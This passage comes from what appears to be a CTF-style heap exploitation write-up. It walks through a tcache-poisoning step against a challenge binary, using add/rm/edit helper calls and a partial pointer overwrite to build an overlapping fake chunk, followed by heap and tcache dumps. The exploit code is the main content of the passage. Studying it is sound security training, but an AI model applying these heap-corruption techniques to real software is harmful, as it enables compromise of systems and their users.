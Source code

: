 I’ll now (after a bit of spacing) create another fake chunk roughly the same
way:

    
    
    add('x', 0x30)                                  # add for spacing, but used later
    rm('x')
    
    add('C', 0x60)   # create block to be freed and steal pointer in tcache - C = 340
    add('D', 0x70, p64(0)*5 + p64(0xa1) + p64(0)) # create block and fake block to put fake block meta in place - D = 3b0
    rm('D') # D in tcache 0x80
    add('E', 0x60, p64(0x21)*11)   # create second 0x60, E, and spray with 0x21 for next block meta fake later, E = 430
    rm('C')               # f1 empty, C in 0x70 tcache
    edit('E', 0)      # slot 2 -> E, E->C in 0x70 tcache
    add('E2', 0x60)  # slots 1 and 2 -> E, C in 0x70 tcache
    rm('E')               # slot 1 -> E, E -> C in 0x70 tache
    edit('E2', 0x60, b'\xe0') # edit tcache pointer, C -> fake2 in 0x70 tcache
    
    # next three fetch C from tcache, and get rid of it without putting it back in 0x70 tcache
    add('E3', 0x60)   # fetch E, fake in 0x70 tcache
    edit('E3', 0x20)  # E-end in 0x30 tcache
    rm('E3')          # E in 0x50 tcache
    
    add('fake2', 0x60, p64(0)*9 + p64(0x31) + p64(0))   # get fake block, change key for E
    rm('E2') # C
    add('B', 0x70) # B
    

I do the same thing here, though this time I have another block between the
one I steal the pointer from and the one with that pointer. At the end, I’m
left with handles to two overlapping blocks. The fake block reports to have
size 0xa1 (despite the fact that I can’t make blocks that big in this
program), and the other one is before it able to write into this block.

    
    
    -----------------------------------
    [0x000055555555c3b0] B       : x
    [0x000055555555c3e0] fake2   : 
    -----------------------------------
    0x55555555c3a0: 0x0000000000000000      0x0000000000000081  <-- B meta
    0x55555555c3b0: 0x0000000000000a78      0x0000000000000000
    0x55555555c3c0: 0x0000000000000000      0x0000000000000000
    0x55555555c3d0: 0x0000000000000000      0x00000000000000a1  <-- fake2 meta
    0x55555555c3e0: 0x0000000000000000      0x0000000000000000
    0x55555555c3f0: 0x0000000000000000      0x0000000000000000
    0x55555555c400: 0x0000000000000000      0x0000000000000000
    0x55555555c410: 0x0000000000000000      0x0000000000000000
    0x55555555c420: 0x0000000000000000      0x0000000000000031  <-- E meta
    -----------------------------------
    ...[snip]...
                      top: 0x55555555c490 (size : 0x20b70) 
           last_remainder: 0x0 (size : 0x0) 
                unsortbin: 0x0
    (0x20)   tcache_entry[0](1): 0x55555555c2e0
    (0x30)   tcache_entry[1](3): 0x55555555c430 --> 0x55555555c430 (overlap chunk with 0x55555555c420(freed) )
    (0x40)   tcache_entry[2](2): 0x55555555c460 --> 0x55555555c300
    (0x50)   tcache_entry[3](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
    (0x60)   tcache_entry[4](1): 0x55555555c290 (overlap chunk with 0x55555555c2d0(freed) )
    